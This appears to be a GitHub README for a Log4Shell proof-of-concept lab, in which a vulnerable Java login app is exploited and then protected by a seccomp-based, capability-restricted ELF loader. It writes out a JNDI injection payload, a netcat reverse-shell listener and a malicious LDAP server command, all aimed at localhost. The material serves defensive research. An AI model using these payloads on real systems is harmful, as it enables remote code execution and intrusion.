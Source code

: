 ## Log4Shell
A small proof-of-concept for the Log4Shell vulnerability based on https://github.com/kozmer/log4j-shell-poc.
The vulnerable application is a simple login component which logs the username and password when login fails, using a vulnerable version of the Log4j logging framework.
The application is used to show how an attacker's capabilities can be restricted with a simple sandboxed execution environment, defined by the system calls that the application is allowed to make.

The code has only been tested on Ubuntu 22.04. 

## Requirements
The Maven project management tool has been used to compile the vulnerable application. However, testing the proof-of-concept should be possible without compiling
the vulnerable application since a compiled version of the vulnerable application is already included in this repository.

Python 3 is used to start a malicious LDAP server, serving a class `Exploit.class` which tries to establish a reverse shell.

Netcat is used to catch the reverse shell connection.


## Testing the exploit
1. Optionally, compile the vulnerable application by running `mvn package`.
2. In a terminal window, start the vulnerable web application with the command `./jdk1.8.0_20/bin/java -cp target/log4shell-1.0-SNAPSHOT.jar com.poc.VulnerableApp VulnerableApp`.
3. In a second terminal window, start a Netcat listener with the command: `nc -lvnp 9001`.
4. In a third terminal window, start the malicious LDAP server with the command: `python3 poc.py --userip localhost --webport 8000 --lport 9001`.
5. In the vulnerable application, type in the following username `${jndi:ldap://localhost:1389/a}`. Then type in any password.
6. Go to the second terminal window. A reverse shell should now have been established. This can e.g. be tested by trying to run `ls` or `whoami`.

## Testing the exploit with a capability-restricted Java interpreter
The ELF file of the Java interpreter `./jdk1.8.0_20/bin/java` contains information about the system calls that the interpreter requires to run the vulnerable application. In particular, the interpreter does not need to execute the `execve` system call to work properly. The `execve` system call is used to establish the reverse shell by executing `execve("/bin/sh", ...)`.

Thus, it is not possible to establish a reverse shell with the same easy approach as described above if the vulnerable application is run in a sandbox, where it is only allowed to execute te system calls that it requires to work properly.

To test this, perform the same steps as described above, but in step 2, start the vulnerable application with the capability-aware ELF loader:
`sudo ./elf_loader ./jdk1.8.0_20/bin/java -cp target/log4shell-1.0-SNAPSHOT.jar com.poc.VulnerableApp VulnerableApp`.
After performing step 5, the vulnerable application should now terminate with the message `Bad system call`, and no reverse shell should be established.


## Creating the capability-restricted Java interpreter
The capability restricted Java interpreter was created by first analyzing the set of system calls required for the vulnerable application to
work properly. This was done using `strace`. In particular, the following command was executed from a `root` shell:
```
strace -n -f -o trace.txt ./jdk1.8.0_20/bin/java -cp target/log4shell-1.0-SNAPSHOT.jar com.poc.VulnerableApp VulnerableApp
```
The vulnerable application was then used, trying to login with both invalid and valid logins before terminating the application.

Afterwards, a list of system call numbers were extracted with the command:
```
cat trace.txt | tail -n +2 | grep -E -o '\[[[:blank:]]+[[:digit:]]+\]' | grep -E -o '[[:digit:]]+' | sort -n | uniq | awk 'NR>=0{printf "%s,", $1}' | sed 's/,$//' > syscalls.txt
```
Note that the first system call in `trace.txt` is `execve("./jdk1.8.0_20/bin/java", ...)` which is used to spawn the Java interpreter. 
Thus, this system call is ignored with the `tail -n +2` command.

Lastly, the extracted system calls were added to the ELF file of the Java interpreter with the provided `elf_patcher`. 

Note that the `elf_loader` reads the required system calls added by the `elf_patcher` and installs a seccomp-BPF filter that ensures that only these system calls are allowed for the vulnerable application. 

The approach taken by the `elf_loader` has some limitations, which requires it to be run with `sudo`. These limitations can be overcome by modifying the Linux kernel to allow `execve` to take the capabilities in ELF files into account.






